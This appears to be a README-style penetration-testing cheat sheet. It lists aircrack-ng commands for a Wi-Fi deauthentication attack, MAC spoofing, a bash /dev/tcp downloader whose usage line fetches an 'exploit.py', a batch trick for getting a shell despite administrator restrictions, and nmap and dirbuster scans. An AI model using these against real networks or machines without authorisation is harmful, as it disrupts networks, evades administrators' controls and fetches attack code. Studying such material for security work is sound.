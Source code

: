 # Useful Cheatsheet

> #### Disclaimer
> 
> For Academic and Educational Purposes Only

I am actively developing a comprehensive cheat sheet, regularly adding content that encompasses intricate information, helpful techniques, and fundamental utilities, along with their practical usage, all conveniently consolidated in a single resource

## Table of Contents

- [Networking stuff](#networking-stuff)
  - [Show my wireless card name](#show-my-wireless-card-name)
  - [Put wireless card on monitor mode](#put-wireless-card-on-monitor-mode)
  - [Show routers in range](#show-routers-in-range)
  - [Show devices connected to a specific router](#show-devices-connected-to-a-specific-router)
  - [Create deauth attack](#create-deauth-attack)
  - [Change MAC address](#change-mac-address)
  - [Host DarkWeb, Secret chat](#host-darkweb-secret-chat)
- [System compromising](#system-compromising)
  - [curl or wget without the function itself](#curl-or-wget-without-the-function-itself)
  - [Get cmd in Windows if not enabled by administrator](#get-cmd-in-windows-if-not-enabled-by-administrator)
- [Web Penetration Testing](#web-penetration-testing)
  - [Basic Steps to Rule the World](#basic-steps-to-rule-the-world)
  - [Scanning the machine](#scanning-the-machine)
  - [Using DirBuster](#using-dirbuster)
  - [Validating a form and a button if it is disabled](#validating-a-form-and-a-button-if-it-is-disabled)
  - [List of vulnerable Unix libraries, to for example get root access](#list-of-vulnerable-unix-libraries-to-for-example-get-root-access)
  - [SQL injection auth bypass](#sql-injection-auth-bypass)


## Networking stuff

### Show my wireless card name
```
iwconfig
```

### Put wireless card on monitor mode
```
airmon-ng start {card name}
```

### Show routers in range
```
airdump-ng {card name}
```
- PWR column is showing signal strenght
- Note also the channel and BSSID of the router

### Show devices connected to a specific router
```
airodump-ng {card name} --bssid {router BSSID} --channel {router channel}
```
- router is also included there

### Create deauth attack
```
aireplay-ng --deauth 0 -c {devices MAC} -a {routers MAC ADDRESS} {card name}
```
- possibility to include more routers and more MAC adresses
- 0 means infinite number of deauth messages
- TIP of the day: put for example 50 insted of 0 and replay it with 1 second delay

### Change MAC address
```
sudo ifconfig {interface} down
sudo ifconfig {interface} hw ether {MAC address}
sudo ifconfig {interface} up
```

### Host DarkWeb, Secret chat
- use onionshare

## System compromising

### curl or wget without the function itself
```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
 
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
 
 
# USAGE: __curl http://www.example.com/exploit.py > sploitz.py
```
### Get cmd in Windows if not enabled by administrator
- Create a file `something.bat` with following content
```
@echo off
:a
Set /p comm=cmd~
%comm%
Goto a
```

## Web Penetration Testing

### Basic Steps to Rule the World

1. Get basic information about the targer, use it as it is
2. Scan the machine, how many ports are open?
3. Find all directiories - DirBuster
4. To be done

### Scanning the machine

```
nmap -sV {IP ADDRESS}
```

- This provides information about services version are which ports are in use, all in once

### Using DirBuster

- Used for detecting all folders, even the hidden ones

```
dirbuster dir -u {IP ADDRESS} -l {WORDLIST PATH}
```


### Validating a form and a button if it is disabled

- Console will fix this problem

```
var inputField = document.querySelector('input[type="..."][name="..."]');
if (inputField) {
  inputField.removeAttribute("disabled");
}
```

- Run this for both, button and input field and it will be enabled


### List of vulnerable Unix libraries, to for example get root access

- https://gtfobins.github.io/

### SQL injection auth bypass 

 Check this [list](./files/web_pentesting/sqli_auth_bypass_list.txt).
